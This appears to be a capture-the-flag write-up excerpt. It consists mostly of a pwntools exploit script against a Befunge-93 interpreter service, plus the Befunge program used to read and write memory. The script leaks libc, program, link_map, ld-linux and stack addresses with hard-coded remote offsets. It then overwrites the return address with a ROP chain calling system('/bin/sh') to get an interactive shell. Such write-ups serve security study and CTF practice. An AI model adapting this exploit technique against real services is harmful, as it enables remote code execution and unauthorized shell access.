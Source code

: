 ```python exp_bef.py  
    libc_base, system, bin_sh = None, None, None
    # for local
    if LOCAL:
        libc.address += libc_main - libc.symbols['__libc_start_main']
        libc_base = libc.address
        system = libc.symbols['system']
        bin_sh = str_addr("sh\x00", libc)
    # for remote
    else: 
        libc_base = libc_main - 0x21e50
        system = libc_base + 0x0000000000046590
        bin_sh = libc_base + 0x17c8c3

    # leak text base
    text_base = leak_addr(-56, -9, "text_base")
    text_base -= 0xb00

    log.info("libc_base: "+hex(libc_base))
    log.info("text_base: "+hex(text_base))
    
    # leak r_debug
    r_debug = leak_addr(0, -7, "r_debug")
    log.info("r_debug: "+hex(r_debug))

    # traverse link_map structure & leak ld-linux.so base address
    link_map_addr = r_debug + 8
    link_map_text = leak_far_addr(link_map_addr, text_base, "link_map_text")
    log.info("link_map_text: "+hex(link_map_text))
    link_map_vdso = leak_far_addr(link_map_text+24, text_base, "link_map_vdso")
    log.info("link_map_vdso: "+hex(link_map_vdso))
    link_map_libc = leak_far_addr(link_map_vdso+24, text_base, "link_map_libc")
    log.info("link_map_libc: "+hex(link_map_libc))
    link_map_ld = leak_far_addr(link_map_libc+24, text_base, "link_map_ld")
    log.info("link_map_ld: "+hex(link_map_ld))
    ld_base = leak_far_addr(link_map_ld, text_base, "ld_base")
    log.info("ld_base: "+hex(ld_base))
    # leak __libc_stack_end in ld-linux.so, get stack address
    LD.address += ld_base
    log.info("libc_stack_end: "+hex(LD.symbols['__libc_stack_end']))
    stack_addr = leak_far_addr(LD.symbols['__libc_stack_end'], text_base, "stack addr")
    log.info("stack_addr: "+hex(stack_addr))
    
    pop_rdi = text_base + 0x000000000000120c
    ret_addr = stack_addr - 216
    log.info("ret_addr: "+hex(ret_addr))
    log.info("pop_rdi: "+hex(pop_rdi))
    log.info("bin_sh: "+hex(bin_sh))
    log.info("system: "+hex(system))
    
    # overwrite return address
    write_far_addr(ret_addr, text_base, "ret_addr", pop_rdi)
    write_far_addr(ret_addr+8, text_base, "ret_addr+8", bin_sh)
    write_far_addr(ret_addr+16, text_base, "ret_addr+16", system)

    r.interactive()
```
`bbb` is the Befunge-93 program I used to exploit the service : 
```text bbb
>                                    v
v.g&&.g&&.g&&.g&&.g&&.g&&            <
>&&g.&&g.&&g.&&g.&&g.&&g.            v
v.g&&.g&&.g&&.g&&.g&&.g&&            <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
```
